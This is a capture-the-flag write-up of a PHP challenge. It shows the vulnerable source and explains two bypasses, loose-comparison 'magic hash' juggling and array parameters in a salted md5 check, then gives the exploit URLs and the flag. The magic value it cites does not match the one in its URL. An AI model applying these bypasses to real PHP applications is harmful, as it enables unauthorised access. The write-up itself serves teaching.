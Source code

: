 # Piece Of Cake
> The original site was http://103.245.249.76:49155 but the site will likely be take down, the original file is:


```htm1
<?php 
include "flag.php"; 
highlight_file(__FILE__); 
error_reporting(0); 
$str1 = $_GET['0']; 

if(isset($_GET['0'])){ 
    if($str1 == md5($str1)){ 
        echo $onion1; 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
} 

$str2 = $_GET['1']; 
$str3 = $_GET['2']; 

if(isset($_GET['1']) && isset($_GET['2'])){ 
    if($str2 !== $str3){ 
        if(hash('md5', $salt . $str2) == hash('md5', $salt . $str3)){ 
            echo $onion2; 
        } 
        else{ 
            die(); 
        } 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
} 
?> 
```

### Strategy
- We can see that the file includes "flag.php", and gives us back two different flags if we meet the conditionals. As it turns out, we get back two parts of a single flag.
- I’ll break this blog post down into the two separate areas that we have to solve in order to get the flag. We can see that each one is passed in as a query parameter, because of `$_GET['0'], $_GET['1']` and so on.

### $Flag1
- This first part is as follows: 
```htm1
<?php 
include "flag.php"; 
highlight_file(__FILE__); 
error_reporting(0); 
$str1 = $_GET['0']; 

if(isset($_GET['0'])){ 
    if($str1 == md5($str1)){ 
        echo $onion1; 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
} 
```

- In short, we need to enter a string (as parameter “0”) where the md5 of the string is equivalent to the string itself.  Wait, what?
- That should be impossible (?), but the trick here is the == which is different than === (yes I know, computers are terrible).  PHP has two main comparison modes. The “loose” comparison mode, as shown on page 7 of [this presentation](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf), is easier for us to exploit.  Page 9 shows that if an operand “looks like” a number (for example, 0e12345), it will convert them and perform a numeric comparison. So, we’re looking for two strings that PHP will incorrectly interpret as numbers, specifically in scientific notation (“0e….").
- The md5 hash of `0e215962017` is `0e291242476940776845150308577824`, as seen [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md?fbclid=IwAR3a3sJnizCJZnrNVEqkcC-lVBeKdkIVZBmFkL7VWJ_MYdDKy6Rd715cdJs).
- So, if we plug in that string as our first parameter, we get the first part of our flag:

`http://103.245.249.76:49155/?0=0e1137126905`

![image](https://user-images.githubusercontent.com/93731698/175820279-6ddefd10-83ba-405d-a35e-72732ec86ded.png)

### $Flag2

Next up: 

```htm1
$str2 = $_GET['1']; 
$str3 = $_GET['2']; 

if(isset($_GET['1']) && isset($_GET['2'])){ 
    if($str2 !== $str3){ 
        if(hash('md5', $salt . $str2) == hash('md5', $salt . $str3)){ 
            echo $onion2; 
        } 
        else{ 
            die(); 
        } 
    } 
    else{ 
        die(); 
    } 
} 
else{ 
    die();    
```
- Another head-scratcher:  we need to find two parameters that are not equal to each other, yet when we hash a concatenation of a pre-determined salt, and the parameters, they equal each other.
- When I originally wrote the preceding sentence, I wrote “find two strings”… but that’s an assumption on my part.  We have to supply two parameters, they don’t need to be of type string.  In fact, we’ll get through this section by exploiting that assumption.
- You can try this code out at [writePHPonline](https://www.writephponline.com/):
```htm1
$salt = "something";
$str2[] = 1;
$str3[] = 2;

if ($str2 !== $str3) {
  echo "str2 is different from str3";
}

echo ($salt . $str2);
echo ($salt . $str3);
```
- If you run it, you’ll see that $str2 is considered different from $str3, so our first check passes.
- Then, when we concatenate a string with an array, the output is “somethingArray”.  Huh.  So PHP seems to be converting the array to the string “Array” and then concatenating it to the salt variable.
- That gives us our next bit of URL:
`http://103.245.249.76:49155/?0=0e1137126905&1[]=1&2[]=2`

![image](https://user-images.githubusercontent.com/93731698/175820568-c7c1d22c-f2fa-4987-84ee-61b0e342bfc7.png)

### $Flag:

![image](https://user-images.githubusercontent.com/93731698/175820756-96a99dcf-41c1-4483-8bb7-4c261b38f12f.png)

Flag: `FPTUHACKING{StR1Ngs_c0nCaTeNaT1oN_1s_EaSy_!!!}`

# References: 
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md?fbclid=IwAR3a3sJnizCJZnrNVEqkcC-lVBeKdkIVZBmFkL7VWJ_MYdDKy6Rd715cdJs, here will explain clearly `PHP Juggling type and magic hashes`.





